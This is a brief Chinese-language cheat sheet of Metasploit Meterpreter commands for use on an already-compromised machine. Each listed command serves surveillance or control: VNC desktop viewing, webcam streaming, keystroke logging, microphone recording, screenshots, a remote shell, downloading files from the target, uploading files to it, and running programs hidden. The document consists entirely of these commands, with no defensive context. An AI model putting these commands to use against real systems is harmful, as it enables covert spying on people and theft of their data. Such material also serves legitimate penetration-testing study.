 ### 使用vnc查看桌面
```msf
run vnc
```
### 监视摄像头
```msf
webcam_stream
```
### 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```
### 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
### 截屏
```msf
screenshot
```
### 进入cmd
```msf
shell
```
### 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
###从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
- 查看有几个摄像头
```msf
webcam_list
```
-运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```
